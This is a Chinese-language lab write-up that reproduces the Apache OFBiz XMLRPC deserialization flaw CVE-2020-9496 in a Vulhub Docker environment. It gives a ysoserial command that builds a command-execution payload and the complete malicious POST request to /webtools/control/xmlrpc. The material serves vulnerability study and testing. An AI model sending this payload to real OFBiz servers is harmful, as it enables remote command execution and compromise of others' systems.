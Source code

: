 # Apache OfBiz 反序列化命令执行漏洞CVE-2020-9496

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。

![image-20220228132653236](./images/202202281326342.png)

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考链接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![image-20220228134051709](./images/202202281340980.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![image-20220228134410175](./images/202202281344325.png)

进入容器中，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220228134307506](./images/202202281343563.png)

